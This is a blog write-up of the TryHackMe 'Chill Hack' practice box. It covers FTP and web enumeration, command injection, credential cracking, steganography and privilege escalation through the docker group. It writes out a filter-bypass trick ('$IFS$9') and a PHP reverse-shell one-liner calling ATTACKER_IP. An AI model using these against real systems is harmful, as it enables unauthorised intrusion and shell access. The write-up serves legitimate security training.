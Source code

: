 ```yaml
---
layout: post
title: THM Chill Hack writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/chillhack/0.head.png">
<!--more-->
<a href="https://tryhackme.com/room/chillhack" target="_blank" > Click here to access this box on TryHackMe.com</a>
<hr>
<h1>ENUMERATION:</h1>
<hr>
<p>Let's start by scanning for open ports with NMAP.</p>
<p>In the output below we can see that FTP (port 21) and SSH (port 22) are open. There’s also an apache  web server running on port 80.</p>
<img src="/img/chillhack/1.nmap.png">

<p>First let see what's in the note.txt file on the FTP service since anonymous login is allowed.</p>
<p>login with “anonymous:anonymous”.</p>
<img src="/img/chillhack/2.ftp-login.png">

<p>Download (GET) the note.txt file.</p>
<img src="/img/chillhack/3.ftp-note-dl.png">

<p>Read the contents of the file.</p>
<p> This isn’t very helpful right now, but will take note of this. </p>
<p> Let’s enumerate the webserver in our web browser.</p>
<img src="/img/chillhack/4.note-text.png">

<p>We have a web page that appears to be dedicated to  pseudo soccer teams.</p>
<p>I spent some time enumerating all the input fields and links. All of them appear to be “dummy” place holders.</p>  
<img src="/img/chillhack/5.home-webpage.png">

<p>Let’s try and enumerate the sub directories by using gobuster.</p>
<img src="/img/chillhack/6.dirbuster.png">

<p>From the output below we see there’s a directory named “secret”. Let’s navigate to the page</p>
<img src="/img/chillhack/7.dirbuster2.png">

<p>When we navigate to that page we’re presented with an input box that says "command". Oaky,Let’s try and issue some commands. Since we know from NMAP this is most likely running on a Linux, let’s try some bash commands.</p>
<img src="/img/chillhack/8.secret-page.png">

<p>If we type “id" command we get a response in our web browser. Let’s try and use net cat to get a basic reverse shell.</p>
<img src="/img/chillhack/9.id-input.png">

<p>First let’s set up a listener on our attacking machine to catch the shell.</p>
<img src="/img/chillhack/10.nc-listner.png">

<p>Okay, I didn't think it would be that easy. This must be what the note.txt in the FTP server was speaking to. They're filtering out some keywords - “nc” appears to be one.</p>
<img src="/img/chillhack/11.nc-fail.png">

<p>I tried using Burp Suite to send the POST request to try and bypass any client side scripting that may be filtering input data. That didn’t work.</p>
<img src="/img/chillhack/12.burp.png">
<hr>
<h1>GAINING A FOOTHOLD:</h1>
<hr>
<p>After fuzzing the input data for a while, I found a way to defeat the input filtering by using “$IFS$9” (this will be interpreted as a white space on the server). I’m assuming there’s an input validation that has a hard coded list of keywords. E.g.  'nc', 'python', 'bash','php','perl', etc… If we take the command “nc -e” and replace the withe space with “nc$IFS$9-e” we can get the command to execute without triggering the input validation filter.  </p>
<img src="/img/chillhack/13.input-trick.png">

<p>Altho this trick worked I couldn’t get a shell to “pop” using any net cat commands. I used a PHP one-liner and “popped” a reverse shell: php$IFS$9-r '$sock=fsockopen("ATTACKER_IP",PORT_NUM);exec("/bin/sh -i <&3 >&3 2>&3");'  </p>
<img src="/img/chillhack/14.php-1liner.png">

<p>...and we have a non interactive shell running as www-data. Let’s upgrade this to pseudo interactive. Read more about upgragding your shell to fully interactive here <a href="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" target="blank"> here</a> </p>
<img src="/img/chillhack/15.first-shell.png"></p>

<p>Using this Python command we can get a pseudo interactive shell and start enumerating.</p>
<img src="/img/chillhack/16.psudo-i-shell.png">

<p>Looking through the file system there's an interesting  directory named “files” that we have read access to. There’s also a folder named images. I downloaded all these files by setting up a simple python and issuing a wget command from my machine.</p>
<img src="/img/chillhack/17.files.png">

<p>When we cat the index.php file we find a MySql user name and password. Let’s note these and see if we can connect to the MySql server. </p>
<img src="/img/chillhack/18.mysql-creds.png">

<p>We’re connected to the SQL database. Let’s begin enumerating.</p>
<img src="/img/chillhack/19.mysql-login.png">

<p>The webportal table looks interesting. Let’s see what  tables it has.</p>
<img src="/img/chillhack/20.mysql-tables.png">

<p>Let’s see if we can get any user creds from this table.</p>
<img src="/img/chillhack/21.mysql-table.png">

<p>Great, we have usernames and passwords. These passwords are hashed with  MD5. Let see if Crakstation.net can crack these before we try hashcat.</p>
<img src="/img/chillhack/22.user-password-hashed.png">

<p>They were very weak passwords and crackstation.net was able to crack both. Let’s note the user names and password and keep enumerating. </p>
<img src="/img/chillhack/23.crack-station.png">

<p>Let’s check the images we download from the images folder on the server. First let’s try the .jpg and see if these any hidden data in it.</p>
<img src="/img/chillhack/">

<p>Using steghide I was able to extract a file named backup.zip. Let’s unzip and see what’s inside.</p>
<img src="/img/chillhack/24.backup-.zip-file.png">

<p>It’s password protected. I tried the three passwords I captured earlier but these didn’t work. let ‘s try and bruteforce the password.</p>
<img src="/img/chillhack/25.unzip-pass-pro.png">

<p>using fcrackzip and the rockyou password list it quickly found the password.</p>
<img src="/img/chillhack/26.zip_password-cracked.png">

<p>Let’s see what’s inside. When we unzip the file we find another file named source_code.php. There’s credentials hardcoded in this php, but it’s base64 encoded.</p>
<img src="/img/chillhack/27.creds-again.png">

<p>Let’s decode the password.</p>
<img src="/img/chillhack/28.base64-d.png">

<p>Let’s see if we can use these creds to ssh in so we have a more stable shell</p>
<img src="/img/chillhack/">
<hr>
<h1>PRIVILEGE ESCALATION:</h1>
<hr>
<p>Success. Now let’s enumerate for priv esc.</p>
<img src="/img/chillhack/29.ssh-shell.png">

<p>We’re in the Docker group. This looks like a potential priv esc path.</p>
<img src="/img/chillhack/30.docker-group.png">

<p>A quick check on GTFO bins.</p>
<img src="/img/chillhack/31.gtfo-bins.png">
<p>And we are root. Let’s cat our flags.</p>
<img src="/img/chillhack/32.we-are-root.png">
<p>User flag.</p>
<img src="/img/chillhack/33.user-flag.png">
<p>And the root flag. This was a really fun box!!</p>
<img src="/img/chillhack/34.root-flag.png">




